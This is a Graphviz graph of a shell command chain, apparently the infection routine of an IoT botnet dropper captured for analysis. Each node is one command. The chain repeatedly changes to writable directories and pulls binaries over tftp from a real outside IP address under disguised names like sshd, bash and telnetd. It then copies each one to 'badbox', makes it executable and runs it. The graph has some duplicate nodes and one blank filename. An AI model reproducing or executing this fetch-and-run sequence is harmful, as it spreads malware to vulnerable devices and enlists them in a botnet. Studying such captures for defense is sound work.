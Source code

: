 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 14 [label="||,"];
14 [label="tftp 94.177.243.240 -c get ntpd "];
14 -> 16 [label=";,"];
16 [label="cat ntpd badbox "];
16 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 34 [label="||,"];
34 [label="tftp 94.177.243.240 -c get sshd "];
34 -> 36 [label=";,"];
36 [label="cat sshd badbox "];
36 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 54 [label="||,"];
54 [label="tftp 94.177.243.240 -c get openssh "];
54 -> 56 [label=";,"];
56 [label="cat openssh badbox "];
56 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 74 [label="||,"];
74 [label="tftp 94.177.243.240 -c get bash "];
74 -> 76 [label=";,"];
76 [label="cat bash badbox "];
76 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 94 [label="||,"];
94 [label="tftp 94.177.243.240 -c get tftp "];
94 -> 96 [label=";,"];
96 [label="cat tftp badbox "];
96 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 114 [label="||,"];
114 [label="tftp 94.177.243.240 -c get pstree "];
114 -> 116 [label=";,"];
116 [label="cat pstree badbox "];
116 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 134 [label="||,"];
134 [label="tftp 94.177.243.240 -c get dropbear "];
134 -> 136 [label=";,"];
136 [label="cat dropbear badbox "];
136 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 154 [label="||,"];
154 [label="tftp 94.177.243.240 -c get wget "];
154 -> 156 [label=";,"];
156 [label="cat wget badbox "];
156 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 174 [label="||,"];
174 [label="tftp 94.177.243.240 -c get cron "];
174 -> 176 [label=";,"];
176 [label="cat cron badbox "];
176 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 194 [label="||,"];
194 [label="tftp 94.177.243.240 -c get ftp "];
194 -> 196 [label=";,"];
196 [label="cat ftp badbox "];
196 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 214 [label="||,"];
214 [label="tftp 94.177.243.240 -c get pftp "];
214 -> 216 [label=";,"];
216 [label="cat pftp badbox "];
216 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 234 [label="||,"];
234 [label="tftp 94.177.243.240 -c get sh "];
234 -> 236 [label=";,"];
236 [label="cat sh badbox "];
236 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 254 [label="||,"];
254 [label="tftp 94.177.243.240 -c get   "];
254 -> 256 [label=";,"];
256 [label="cat   badbox "];
256 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 274 [label="||,"];
274 [label="tftp 94.177.243.240 -c get apache2 "];
274 -> 276 [label=";,"];
276 [label="cat apache2 badbox "];
276 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
301 [label="./badbox "];
301 -> 284 [label=";,"];
284 [label="cd /tmp "];
284 -> 284
286 [label="cd /var/run "];
286 -> 288 [label="||,"];
288 [label="cd /mnt "];
288 -> 290 [label="||,"];
290 [label="cd /root "];
290 -> 292 [label="||,"];
292 [label="cd / "];
292 -> 294 [label="||,"];
294 [label="tftp 94.177.243.240 -c get telnetd "];
294 -> 296 [label=";,"];
296 [label="cat telnetd badbox "];
296 -> 298 [label=";,"];
298 [label="badbox "];
298 -> 298
300 [label="chmod +x * "];
300 -> 301 [label=";,"];
}
